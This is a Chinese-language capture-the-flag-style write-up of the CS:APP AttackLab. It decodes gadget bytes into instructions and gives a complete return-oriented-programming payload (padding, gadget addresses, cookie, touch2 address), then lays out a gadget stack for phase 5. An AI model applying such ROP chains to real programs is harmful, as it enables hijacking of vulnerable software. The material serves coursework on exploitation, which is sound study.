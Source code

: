 ```
# addval_273 第二行末尾
89 c7 
c3
# addval_219 第二行末尾和第三行
58 
90
c3
```

结合AttackLab的pdf中提供的表格,这些编码对应指令:

```
# addval_273 
movl %eax,%edi
ret
# addval_219
popq %rax
nop
ret
```

现在假设栈顶是cookie的值,之后如果先执行add_val219的片段,再执行addval_273的片段,效果就是8字节的cookie值被传递到了%edi中,此时再让addval_273的片段返回到touch2就可以了.

直接给出攻击代码,其中函数的真实地址(偏移的)通过在gdb中使用disas指令得到:

```
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 
30 30 30 30 30 30 30 30 
30 30 30 30 30 30 30 30 
ab 19 40 00 00 00 00 00 /* addval_219 address */
fa 97 b9 59 00 00 00 00 /* cookie */
a3 19 40 00 00 00 00 00 /* addval_273 address */
ec 17 40 00 00 00 00 00 /* touch2 address */
0a
```

#### II.phase 5

attacklab.pdf开篇警告这个阶段很难,这比把BombLab的secret_phase藏起来要好.

这一阶段要求做和ctarget中的第三阶段相同的事情,被告知官方解法使用了8次gadget.

我先把farm.s整理了一下,去重并将可得到的新指令标注出来后得到了本目录下的Selectedfarm.s用来参考.

现在就有了9个gadget,除了add_xy之外的每个都只执行一条汇编指令.

经过思考后我画出了这样一个栈帧,gadget的地址直接用其执行的汇编指令(省略了ret)替代:

|         cookie          |
| :---------------------: |
| 00 00 00 00 00 00 00 00 |
|     touch3起始地址      |
|      mov %rax,%rdi      |
|    add_xy(%rdi,%rsi)    |
|     movl %ecx,%esi      |
|     movl %edx,%ecx      |
|     movl %eax,%edx      |
|          0x48           |
|        popq %rax        |
